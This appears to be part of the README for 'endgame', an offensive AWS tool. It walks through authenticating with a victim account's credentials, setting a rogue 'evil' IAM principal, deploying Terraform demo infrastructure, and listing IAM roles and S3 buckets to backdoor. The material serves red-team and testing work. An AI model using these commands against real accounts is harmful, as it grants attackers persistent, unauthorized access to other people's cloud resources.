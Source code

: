 * To enable Bash completion, put this in your `~/.bashrc`:

```bash
eval "$(_ENDGAME_COMPLETE=source endgame)"
```

* To enable ZSH completion, put this in your `~/.zshrc`:

```bash
eval "$(_ENDGAME_COMPLETE=source_zsh endgame)"
```

## Step 1: Setup

* First, authenticate to AWS CLI using credentials to the victim's account.

* Set the environment variables for `EVIL_PRINCIPAL` (required). Optionally, set the environment variables for `AWS_REGION` and `AWS_PROFILE`.

```bash
# Set `EVIL_PRINCIPAL` environment variable to the rogue IAM User or 
# Role that you want to give access to.
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

# If you don't supply these values, these will be the defaults.
export AWS_REGION="us-east-1"
export AWS_PROFILE="default"
```

## Step 2: Create Demo Infrastructure

This program makes modifications to live AWS Infrastructure, which can vary from account to account. We have bootstrapped some of this for you using [Terraform](https://www.terraform.io/intro/index.html).


> **Warning: This will create real AWS infrastructure and will cost you money. Be sure to create this in a test account, and destroy the Terraform resources afterwards.**

```bash
# To create the demo infrastructure
make terraform-demo
```

## Step 3: List Victim Resources

You can use the `list-resources` command to list resources in the account that you can backdoor.

* Examples:

```bash
# List IAM Roles, so you can create a backdoor via their AssumeRole policies
endgame list-resources -s iam

# List S3 buckets, so you can create a backdoor via their Bucket policies 
endgame list-resources --service s3

# List all resources across services that can be backdoored
endgame list-resources --service all
```
